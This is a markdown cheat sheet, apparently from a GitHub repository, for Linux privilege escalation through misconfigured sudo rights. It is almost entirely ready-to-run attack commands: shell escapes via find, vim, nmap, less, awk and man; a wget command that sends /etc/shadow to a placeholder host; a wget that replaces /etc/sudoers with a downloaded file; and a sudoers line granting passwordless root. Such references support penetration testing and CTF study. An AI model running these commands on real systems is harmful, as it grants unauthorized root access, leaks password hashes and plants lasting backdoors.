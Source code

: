 # PrivEsc Cheatsheet

## Get Cron Jobs of all users
(where possible)
```
for user in $(getent passwd | cut -f1 -d: ); do echo $user; crontab -u $user -l; done
```

## Available Commands

"List the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host"

```
sudo -l
```

### Find

```
sudo find /etc/passwd -exec /bin/sh \;
```

### Vim

```
sudo vim -c '!sh'
```

### nmap (old)

```
sudo nmap --interactive
nmap> !sh
```

### nmap (new)
```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```

### man

```
sudo man man
!sh
```

### more/less

```
sudo less /etc/hosts
!sh

sudo more /etc/hosts
!sh
```

### awk

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

### wget

```
sudo wget http://<HOST>:<PORT>/sudoers -O /etc/sudoers
```

Read file:

```
sudo wget --post-file=/etc/shadow <HOST>
```

### apache

```
sudo apache2 -f /etc/shadow
```

## Writeable `/etc/sudoers`
Append:
```
<username>      ALL = NOPASSWD: ALL
```


# Resources
- [Abusing SUDO (Linux Privilege Escalation)](http://touhidshaikh.com/blog/?p=790)

